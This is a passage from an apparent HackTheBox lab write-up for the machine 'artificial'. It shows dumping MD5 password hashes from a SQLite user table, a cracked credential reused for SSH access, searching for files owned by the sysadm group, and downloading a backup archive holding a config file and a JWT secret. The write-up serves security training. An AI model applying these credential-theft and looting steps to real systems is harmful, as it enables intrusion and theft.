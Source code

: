```a
robermark       gael  
\\�PU[d455f275-1d3d-4e64-a0e8-9d25f97ae776d455f275-1d3d-4e64-a0e8-9d25f97ae776.h5PU[59f13c4b-3665-40a1-bd09-2b1b56d8837e59f13c4b-3665-40a1-bd09-2b1b56d8837e.h5  
����(U59f13c4b-3665-40a1-bd09-2b1b56d8837e(Ud455f275-1d3d-4e64-a0e8-9d25f97ae776(
```
- Use `sqlite` to read user passwords, and crack the MD5 hashes:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> sqlite3 users.db    
SQLite version 3.50.3 2025-07-17 13:25:10  
Enter ".help" for usage hints.  
sqlite> .tables  
model  user    
sqlite> SELECT * FROM user;  
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8  
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb  
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36  
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6  
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0  
6|fart|fart@fart.com|3f2f4295a5eb6ad967b832d35e048852  
7|tmpuser|tmpuser@tmp.com|32ecc7b16bde356f5d47cacc01118458
```
- After this, you should have `gael:mattp005numbertwo`. Use these credentials to gain SSH access, as Gael has reused his password.
- Running the `id` command reveals that Gael is in the `sysadm` group. Running this `find` command reveals an interesting file:
```a
gael@artificial:~$ find / -group sysadm
find: ‘/proc/tty/driver’: Permission denied  
...
/var/backups/backrest_backup.tar.gz  
find: ‘/sys/kernel/tracing’: Permission denied  
...
```
- Using `scp` to download the file, we can extract and see the `config.json` file for backrest:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> scp gael@artificial.htb:/var/backups/backrest_backup.tar.gz .  
backrest_backup.tar.gz   
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> tar -xvf backrest_backup.tar.gz    
backrest/  
backrest/restic  
backrest/oplog.sqlite-wal  
backrest/oplog.sqlite-shm  
backrest/.config/  
backrest/.config/backrest/  
backrest/.config/backrest/config.json  
backrest/oplog.sqlite.lock  
backrest/backrest  
backrest/tasklogs/  
backrest/tasklogs/logs.sqlite-shm  
backrest/tasklogs/.inprogress/  
backrest/tasklogs/logs.sqlite-wal  
backrest/tasklogs/logs.sqlite  
backrest/oplog.sqlite  
backrest/jwt-secret  
backrest/processlogs/  
backrest/processlogs/backrest.log  
backrest/install.sh  
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> cat backrest/.config/backrest/config.json  
{  
 "modno": 2,  
```